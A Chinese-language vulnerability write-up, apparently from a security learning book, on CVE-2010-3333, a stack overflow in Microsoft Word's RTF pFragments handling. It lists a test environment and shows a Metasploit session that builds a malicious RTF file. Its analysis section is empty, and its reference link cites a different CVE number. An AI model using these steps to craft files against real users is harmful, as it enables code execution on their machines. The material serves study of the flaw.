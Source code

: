 # 7.1.9 cve-2010-3333 Microsoft Word RTF pFragments 栈溢出漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)


[下载文件](../src/exploit/7.1.9_ms_word_2010-3333)

## 漏洞描述
cve-2010-3333 漏洞是一个栈溢出漏洞，该漏洞是由于 Microsoft Office 软件中的 Open XML 文件格式转换器在处理 RTF 中的 "pFragments" 属性时存在栈溢出，可能导致任意代码执行。受影响的版本有：MS Office 2003 SP3、Office 2007 SP0、Office 2010 等。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | OllyDbg | 版本号：吾爱专版 |
| 反汇编器 | IDA Pro | 版本号：7.0 |
| 漏洞软件 | MS Office | 版本号：2003 SP3 |

我们利用 Metasploit 来生成拒绝服务攻击样本：
```
msf > search cve-2010-3333
   Name                                                    Disclosure Date  Rank   Description
   ----                                                    ---------------  ----   -----------
   exploit/windows/fileformat/ms10_087_rtf_pfragments_bof  2010-11-09       great  MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)

msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show info

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 6
target => 6

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set filename cve20103333.rtf
filename => cve20103333.rtf

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'cve20103333.rtf' file ...
[+] cve20103333.rtf stored at /home/firmy/.msf4/local/cve20103333.rtf
```


## 漏洞分析

## 参考资料
- https://www.cvedetails.com/cve/CVE-2010-2333
